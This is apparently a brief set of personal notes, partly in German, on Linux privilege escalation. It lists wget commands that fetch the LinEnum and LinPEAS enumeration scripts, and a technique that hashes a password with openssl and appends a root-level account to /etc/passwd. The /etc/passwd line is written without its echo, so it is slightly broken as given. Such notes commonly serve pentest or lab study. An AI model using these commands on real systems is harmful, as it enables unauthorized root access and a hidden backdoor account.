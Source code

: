 # takeit

LinEnum (für priv. esc.)<br>
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh

LinPEAS <br>
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

Vertikal<br>
openssl passwd -1 -salt [salt] [password] <br>
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash >> /etc/passwd <br>
